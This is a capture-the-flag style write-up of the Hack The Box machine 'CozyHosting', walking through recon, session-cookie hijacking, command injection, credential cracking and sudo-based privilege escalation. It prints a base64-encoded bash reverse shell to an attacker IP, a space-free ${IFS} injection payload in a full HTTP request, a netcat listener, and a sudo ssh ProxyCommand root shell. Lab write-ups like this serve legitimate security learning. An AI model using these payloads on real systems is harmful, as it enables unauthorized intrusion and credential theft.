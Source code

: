 # CozyHosting
We(My friend Bryan and I) decided to try and do an active box for a change. See how difficult they are compared to retired. Sadly, this was somewhat of a challenge.

Despite needing hints, this was a great learning experience I hopefully can share in my notes.

Want to start of paying my respects to [Vikas Sharma](https://psychovik.medium.com/hack-the-box-cozy-hosting-8d17ed0e2304) and his write-up. We relied on it once we got stuck.


Metadata:
- OS: Linux
- Difficulty: Easy
- Status: Active
- IP: 10.10.11.230

## Recon
```bash
sudo nmap -p- -sC -sV $TARGET --open
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-19 14:49 CST
Nmap scan report for 10.10.11.230
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.18 seconds
```

## Navigating the website
Upon viewing the website, we see it is a CMS based site with a `/login` page. Nothing major stood out for us. We tried to look up vulnerabilities for the CMS, but came up with nothing.

So next stage for us, we run dirbuster to see if we find anything of value.

### Dirbuster
Up and till this point, dirbuster hasn't been very useful. This time was different - we actually found a non-auth'd page that had something special.

`/actuator/sessions` was found by dirbuster. When we navigated to it in the browser we saw there were JSESSIONID's. One set for a user named: `kanderson`.

With a little googling, we realized this is used as a session cookie for authenticated users. Time to start burp suite

### Burp
After a little configuring, we got interceptor working on firefox. And navigated to `/admin` where we manually set the JSESSIONID on every request.

`Cookie: JSESSIONID=C7706D2323F4E0940EAF4753D52E9C3E`

After intercepting and changing each cookie to `kanderson`, we got access to the `/admin` page.


## Access
This is where we eventually got stuck and had to rely on a write-up. So instead of just stealing someone else's work. I'll try to add detail as to what I learned. I think that might be more useful.

The admin page had two textboxes attached to a form. First textbox being hostname and second username. I think the page was supposed to provide admin users the ability to connect to boxes they controlled from this website? The one thing we noticed was you could escape the text box and get an error from the commandline. Which meant this text field was getting executed as a bash command. Probably what made this box an easy since you had easy access to the commandline. The problem we struggled with is shown below. The website would not allow space characters (we even tried url encoding them, but with no success). So we needed to find a way to run a command without spaces. Or what we learned today, with the `${IFS}` variable.

Apparently, `${IFS}` gets converted to a space in the terminal. Super powerful feature I didn't know existed. So now we have a way to string an actual command. Let's try and get a shell. This is where we were impressed with the solution provided by Vikas.

First, he shows how to convert a bash command into base64 encoded string. Then provides us a nifty one-liner that echos, decodes and executes the encoded bash command.
```bash
# First we encode to a string (10.10.14.12 is my IP and 4444 is the port I leave open waiting for the victim to connect to)
echo "bash -i >& /dev/tcp/10.10.14.12/4444 0>&1" | base64 -w 0
# output: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDQ0IDA+JjEK%
# Then we embed the string in the payload and send it!
'';echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDQ0IDA+JjEK%"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```


### full payload
```
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 429
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Cookie: JSESSIONID=C7706D2323F4E0940EAF4753D52E9C3E
Upgrade-Insecure-Requests: 1

host=127.0.0.1&username='';echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDQ0IDA+JjEK%"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
Not shown, but we URL encoded the payload to avoid issues with sending the data to the server. We also made sure our attacker box had a netcat listener up.

`nc -lvnp 4444`

Send the request using Burp, and boom. I have a shell.

### Shell access as App user
We stabilize the shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`

Since we already looked at the solution, we saw the key weakness is in the `app/cloudhosting-0.0.1.jar` file. After some googling, realized this compressed java file contains the configuration for the Spring Boot application hosting this website.

We installed `jd-gui` and copied the file over to us. `python -m http.server` then curl it from my kali box.

After some naviagating and searching inside `jd-gui` we find this info:
```
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
So now that we have the password, we connect to the database and see what we can find. Since we had the write-up in front of us, we saw that the passwords were poorly encrypted. This is why Salt and hashing passwords is critical!
```
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
psql -h 127.0.0.1 -U postgres
Password for user

select * from users;

   name    |                           password                           | role

-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```
So we put the passwords into a file called `hash.txt` and put through John the ripper.
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
```
Now that we have a password, we just need to try it. Doesn't appear to work for `admin` or `root`, but it does appear to work for `josh`

### User Flag
`ssh josh@10.10.11.230` with the password of `manchesterunited`. Boom `cat /home/josh/user.txt`.


### Root Flag (ugh, privilege escalation).
We followed Vikas and tried to run `sudo -l`: interesting, the user can sudo ssh. Then we were dumbfounded by `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x` gives us root access. Might need to take some time trying to better understand why this works.

But once we run it, we have root access and get the root flag. `cat /root/root.txt`.

I'm going to try and spend some time trying to figure out how the ssh command works, because it is fascinating to me.
https://gtfobins.github.io/gtfobins/ssh/#sudo

